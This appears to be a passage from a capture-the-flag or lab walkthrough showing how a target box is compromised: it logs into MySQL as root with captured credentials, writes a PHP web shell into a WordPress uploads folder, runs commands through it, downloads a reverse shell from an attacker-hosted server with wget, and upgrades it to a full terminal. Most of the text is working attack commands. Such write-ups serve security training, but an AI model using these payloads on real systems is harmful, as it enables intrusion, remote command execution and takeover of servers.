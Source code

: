 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885710280_image.png)


*MySQL credentials have been captured.*


    MySQL 
    user: root
    password: plbkac


Connecting to MySQL Server

    mysql -u root -p -h 192.168.65.108

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885934941_image.png)


*We are in!*

Creating a Web-shell via MySQL (one-liner)

    select "<?php passthru($_GET['cmd']); ?>" into outfile '/var/www/https/blogblog/wp-content/uploads/sh.php';

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550886081684_image.png)


*Bingo-bango lets see if we can execute commands on system.*


# RCE

Remote code execution via PHP web-sell.

    https://$192.168.56.108:12380/blogblog/wp-content/uploads/sh.php?cmd=uname+-a

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942451599_image.png)


*we can now execute commands on the box via this* `*sh.php?cmd=*`

Reverse Shell Upload via SimpleHTTPServer

    wget http://192.168.56.102:8000/shell.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942635548_image.png)


*Successful reverse shell connection established. Now we need to upgrade this partial shell to a full shell.*

Upgrade Partial Shell to full TTY

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942820453_image.png)
